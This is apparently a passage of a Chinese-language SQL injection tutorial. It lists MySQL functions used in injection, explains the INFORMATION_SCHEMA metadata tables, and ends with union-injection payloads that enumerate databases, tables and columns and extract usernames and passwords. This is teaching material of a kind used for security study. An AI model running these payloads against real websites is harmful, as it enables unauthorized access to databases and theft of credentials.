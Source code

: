 | length() | 返回字符串长度 |
| ascii() | 字符转化成ascii码 |
| ord() | 字符转换成ascii码 |
| mid() | 字段的截取 |
| substr()	| 字段的截取 |
| left() | 从左开始截取字符串|
| right() | 从右开始截取字符串 |
| floor() | 返回小于 x 的最大整数值 |
| rand() | 0和1之间产生一个随机数|
| extractvalue() | 对XML文档进行查询的函数 |
| updatexml() | 改变文档中符合条件的节点的值 |
| sleep() |  休眠 |
| if()	| 判断语句 |

<br/>

## mysql版本区别
在mysql5.0以上自带了一个数据库 `INFORMATION_SCHEMA`，它提供了访问数据库元数据的方式。什么是元数据？元数据是关于数据的数据，如数据库名或表名，列的数据类型，或访问权限等。我们着重关注这三张表

- `SCHEMATA表`：提供了当前mysql实例中所有数据库的信息。是show databases的结果取之此表。
- `TABLES表`：提供了关于数据库中的表的信息（包括视图）。详细表述了某个表属于哪个schema，表类型，表引擎，创建时间等信息。是show tables from schemaname的结果取之此表。
- `COLUMNS表`：提供了表中的列信息。详细表述了某张表的所有列以及每个列的信息。是show columns from schemaname.tablename的结果取之此表。

有了这三张表就可以获取任意数据库中的任意表的数据，而在mysql5.0以下没有该库，因此只能靠爆破数据库信息。
<br/>


## 联合注入
当执行SQL语句查询，数据会发生回显到页面，就可以使用联合注入。联合注入需要确定字段的数量，因为`union`函数需要相同的字段才能执行，可以用`order by n`来确定字段数量，通过改变n的大小来判断字段数量，n小于等于字段页面正常，如果大于字段数量则报错

确定完字段数量之后，需要确定显示位，可以用`id=-1 union select 1,2,....,n`来确定显示位。
获得字段数量和显示位就可以进行联合注入，payload如下
```sql
union select 1,2,...,group_concat(SCHEMA_NAME) from information_schema.SCHEMATA --+ 获取全部数据库名

union select 1,2,...,group_concat(table_name) from information_schema.tables where table_schema=database() --+ 获取当前数据库的表名

union select 1,2,...,group_concat(column_name) from information_schema.columns where table_name='users' --+  获取获取表的字段

union select 1,2,...,group_concat(username,password) from users --+ 获取数据
```
<br/>
